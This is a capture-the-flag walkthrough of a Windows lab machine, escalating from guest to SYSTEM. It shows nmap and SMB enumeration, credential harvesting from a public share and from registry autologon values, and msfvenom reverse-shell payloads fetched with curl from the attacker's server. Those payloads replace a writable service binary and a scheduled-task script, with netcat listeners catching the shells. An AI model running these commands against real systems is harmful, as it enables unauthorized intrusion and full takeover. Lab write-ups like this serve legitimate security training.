

## Scenario

> Your objective is to escalate from guest access all the way through:
> 
> guest->thmuser->notadmin->svcadmin->SYSTEM

Access via: `10.114.173.211`

## Initial Enumeration

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.173.211 -p135,139,445,3389,5985

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-15 14:54 +0200
Nmap scan report for 10.114.173.211
Host is up (0.035s latency).

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
```

**Breakdown:**

- `sudo nmap 10.114.173.211` scans the target with root privileges
- `-p135,139,445,3389,5985` restricts the scan to the common Windows ports: RPC, SMB (two ports), RDP, and WinRM

Followed up with version and script detection on those same ports:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.173.211 -p135,139,445,3389,5985 -sV -sC 

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-15 14:54 +0200
Nmap scan report for 10.114.173.211
Host is up (0.035s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-11-15T12:54:38+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=privesc
| Not valid before: 2026-11-14T12:52:55
|_Not valid after:  2027-05-16T12:52:55
| rdp-ntlm-info: 
|   Target_Name: PRIVESC
|   NetBIOS_Domain_Name: PRIVESC
|   NetBIOS_Computer_Name: PRIVESC
|   DNS_Domain_Name: privesc
|   DNS_Computer_Name: privesc
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-15T12:54:30+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-15T12:54:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.44 seconds
```

**Breakdown:**

- same target and ports as above
- `-sV` service/version detection
- `-sC` default safe script set

Confirmed Windows Server underneath (hostname `PRIVESC`), SMB with signing not enforced, and no useful hints in the RDP certificate beyond the hostname.

Checked what SMB had to offer:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient -L //10.114.173.211 -N       

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Public          Disk      Public file share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.114.173.211 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

**Breakdown:**

- `smbclient -L //10.114.173.211 -N` lists available shares with a null/anonymous session

`Public` stood out as the one non-administrative share. Connected to it:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient //10.114.173.211/Public -N 

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 11 09:40:51 2026
  ..                                  D        0  Mon May 11 09:40:51 2026
  welcome.txt                         A      177  Mon May 11 09:40:50 2026

		7863807 blocks of size 4096. 3588445 blocks available
smb: \> get welcome.txt
getting file \welcome.txt of size 177 as welcome.txt (1.3 KiloBytes/sec) (average 1.3 KiloBytes/sec)
smb: \> !cat welcome.txt 

Welcome to CORP-NET.

New employee default credentials
================================
Username : thmuser
Password : Password1!

Please change your password after first login.
```

**Breakdown:**

- `smbclient //10.114.173.211/Public -N` connects directly to the `Public` share anonymously
- `ls` lists the share's contents
- `get welcome.txt` downloads the file
- `!cat welcome.txt` runs `cat` locally on the downloaded copy

A default-credentials notice sitting in a public share — `thmuser` / `Password1!`.

## Foothold via SMB Credentials — thmuser

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ xfreerdp /u:thmuser /p:Password1! /v:10.114.173.211 /dynamic-resolution /f  
```

**Breakdown:**

- `xfreerdp` an open-source RDP client
- `/u:thmuser` the username
- `/p:Password1!` the password
- `/v:10.114.173.211` the target to connect to
- `/dynamic-resolution` resizes the remote session if the local window is resized
- `/f` opens the session in full screen



### Question — What are the contents of flag1.txt?

```
C:\Users\thmuser.PRIVESC>where /R C:\ flag1.txt

C:\Users\thmuser\Desktop\flag1.txt
```

```shell
C:\Users\thmuser.PRIVESC>type C:\Users\thmuser\Desktop\flag1.txt

—REDACTED—
```

**Breakdown:**

- `where /R C:\ flag1.txt` recursively searches `C:\` for a file named `flag1.txt`
- `type C:\Users\thmuser\Desktop\flag1.txt` prints its contents

**Answer:** `—REDACTED—`

## Lateral Movement to notadmin

Checked the Winlogon registry key, since misconfigured autologon settings are a classic place for plaintext credentials to leak:

```shell
PS C:\Users\thmuser.PRIVESC> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    —SNIP—
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    notadmin
    DefaultPassword    REG_SZ    P@ssw0rd!
    AutoLogonSID    REG_SZ    S-1-5-21-1966530601-3185510712-10604624-1009
    LastUsedUsername    REG_SZ    notadmin

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey
```

**Breakdown:**

- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` dumps every value under that registry key, including any subkeys listed at the end

`AutoAdminLogon` was enabled with `notadmin`'s credentials sitting in plaintext in `DefaultUserName`/`DefaultPassword`. Switched to that account:

```shell
PS C:\Users\thmuser.PRIVESC> runas /user:notadmin cmd.exe

Enter the password for notadmin:
Attempting to start cmd.exe as user "PRIVESC\notadmin" ...
```

```shell
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

privesc\notadmin
```

**Breakdown:**

- `runas /user:notadmin cmd.exe` launches a new `cmd.exe` process running as `notadmin`, prompting for that account's password
- `whoami` confirms the shell is now running as `notadmin`

### Question — What are the contents of flag2.txt?

```shell
C:\Windows\system32>where /R C:\ flag2.txt

C:\Users\notadmin\Desktop\flag2.txt
```

```shell
C:\Windows\system32>type C:\Users\notadmin\Desktop\flag2.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Lateral Movement to svcadmin

Looked for a service running as a different account:

```shell
C:\Windows\system32>wmic service get name,pathname,startname | findstr /i "svcadmin"

THMSvc                                    C:\Windows\THMSVC\svc.exe                                                                      .\svcadmin
```

**Breakdown:**

- `wmic service get name,pathname,startname` lists every registered service with its executable path and the account it runs as
- `| findstr /i "svcadmin"` filters that list down to entries mentioning `svcadmin`, case-insensitively

`THMSvc` runs as `svcadmin` and points at `C:\Windows\THMSVC\svc.exe`. Checked that binary's permissions:

```shell
C:\Windows\system32>icacls C:\Windows\THMSVC\svc.exe

C:\Windows\THMSVC\svc.exe Everyone:(F)
                          PRIVESC\notadmin:(I)(F)
                          BUILTIN\Administrators:(I)(F)
                          NT AUTHORITY\SYSTEM:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

**Breakdown:**

- `icacls C:\Windows\THMSVC\svc.exe` lists the file's access control entries — `Everyone:(F)` means literally any account has full control over this file, inherited permissions aside

That's a straightforward binary swap. Built a reverse shell and served it over HTTP:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=—REDACTED— LPORT=4444 -f exe-service -o svc.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 5632 bytes
Saved as: svc.exe
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**Breakdown:**

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=—REDACTED— LPORT=4444 -f exe-service -o svc.exe` generates a plain (unencoded) reverse-shell payload, built as a Windows service executable, saved as `svc.exe`
- `python3 -m http.server 8000` serves the current directory over HTTP on port 8000, as a quick way to get the payload onto the target

Pulled it straight onto the target, overwriting the real service binary in place:

```shell
C:\Windows\system32>curl http://—REDACTED—:8000/svc.exe -o "C:\Windows\THMSVC\svc.exe"

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5632  100  5632    0     0   5632      0  0:00:01 --:--:--  0:00:01 72205
```

**Breakdown:**

- `curl http://—REDACTED—:8000/svc.exe -o "C:\Windows\THMSVC\svc.exe"` downloads the file and writes it directly to the service's binary path, overwriting the original

Set up a listener before starting the service this time, then started it:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444 

listening on [any] 4444 ...
```

```shell
C:\Windows\system32>sc start THMSvc

SERVICE_NAME: THMSvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1444
        FLAGS              :
```

**Breakdown:**

- `sc start THMSvc` tells the Service Control Manager to start the named service, which now runs the planted binary as `svcadmin`

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444 

listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.173.211] 49888
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 

privesc\svcadmin
```

### Question — What are the contents of flag3.txt?

```shell
C:\Windows\system32>type C:\Users\svcadmin\Desktop\flag3.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Privilege Escalation to SYSTEM

Switched to `rlwrap` on top of the netcat listener for a shell with command history and line editing, rather than plain `nc`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ rlwrap nc -lvnp 4444            

listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.173.211] 49943
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

**Breakdown:**

- `rlwrap` wraps another command (here `nc`) with GNU readline support, giving the session arrow-key history and basic line editing that a raw netcat connection doesn't provide on its own

Had a look around `C:\Windows\Tasks`, a natural place for scheduled-task scripts:

```shell
C:\Windows\Tasks>dir

 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Windows\Tasks

05/11/2026  06:42 AM    <DIR>          .
05/11/2026  06:42 AM    <DIR>          ..
05/11/2026  06:41 AM                41 cleanup.bat
               1 File(s)             41 bytes
               2 Dir(s)  14,604,722,176 bytes free
```

```shell
C:\Windows\Tasks>type cleanup.bat

@echo off
del /Q /F "%TEMP%\*.tmp" 2>nul
```

A batch script that just clears temp files — the kind of thing a scheduled task runs periodically. Checked who can modify it:

```shell
C:\Windows\Tasks>icacls cleanup.bat

cleanup.bat BUILTIN\Users:(I)(RX)
            PRIVESC\svcadmin:(I)(M)
            BUILTIN\Administrators:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

`svcadmin` has Modify rights `(M)` on this file — enough to overwrite it. Pointed it at a payload instead:

```shell
C:\Windows\Tasks>cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
```

**Breakdown:**

- `cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"` overwrites `cleanup.bat`'s contents with a single line pointing to a not-yet-uploaded `shell.exe`

Built and hosted a second payload, then pulled it onto the box into the same directory:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=—REDACTED— LPORT=12345 -f exe > shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```shell
C:\Windows\Tasks>curl http://—REDACTED—:8080/shell.exe -o shell.exe

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7680  100  7680    0     0   7680      0  0:00:01 --:--:--  0:00:01 98461
```

**Breakdown:**

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=—REDACTED— LPORT=12345 -f exe > shell.exe` this time outputs a plain standalone `.exe` rather than a service wrapper, since this one's meant to be launched by the scheduled task directly, not registered as a service
- `curl http://—REDACTED—:8080/shell.exe -o shell.exe` downloads it into the current directory, `C:\Windows\Tasks`

Set up a listener and waited for whatever runs `cleanup.bat` to fire:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ rlwrap nc -lvnp 12345

listening on [any] 12345 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.173.211] 50197
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\Windows\system32>whoami

nt authority\system
```

The scheduled task fired on its own and ran the replaced script, landing a shell as `NT AUTHORITY\SYSTEM`.

### Question — What are the contents of flag4.txt?

```shell
C:\Windows\system32>type C:\flag4.txt

—REDACTED—
```

**Answer:** `—REDACTED—`